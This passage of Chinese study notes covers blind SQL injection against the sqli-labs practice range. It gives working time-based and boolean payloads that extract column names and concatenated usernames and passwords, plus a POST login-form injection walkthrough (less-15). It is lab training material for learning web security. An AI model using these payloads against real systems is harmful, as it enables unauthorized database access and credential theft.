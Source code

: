 ```sql
and if((select length((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1))<=10),sleep(3),1) -- 
```

#### （10）逐个猜解每一个列名的每一个字符

```sql
and if((select ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),1,1)))<=120,sleep(3),1) -- 
```

#### （11）猜解username和password组合成的每一条数据的长度

```sql
and if((select length((select group_concat(username,password) from users  limit 0,1)))<=20,sleep(3),1) -- 
```

#### （12）猜解username和password组合成的每一条数据

```sql
and if((select ascii(substr((select group_concat(username,password) from 表名  limit 0,1),1,1)))=49,sleep(3),1) -- 
```

### 3.POST盲注

#### 靶场练习（less-15）

**1.先随便提交一次请求，然后查看抓到的包，获取发送参数**

```
uname=sgdfghg&passwd=aesdgfsrdfg&submit=Submit
```

**2.使用万能秘钥判断用户名处是否存在注入点。**

显示成功登录，说明存在注入点

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220808120953274.png" alt="image-20220808120953274" style="zoom:50%;" />

**2.尝试布尔盲注**

```
uname=admin' and  ascii(substr(database(),1,1))=115 -- &passwd=dsygiudsh&Submit=Submit
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220808122210158.png" alt="image-20220808122210158" style="zoom:50%;" />

**3.尝试时间盲注**

```
uname=admin' and  if(ascii(substr(database(),1,1))=115,sleep(3),sleep(0)) -- &passwd=dsygiudsh&Submit=Submit
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220808122607167.png" alt="image-20220808122607167" style="zoom:50%;" />
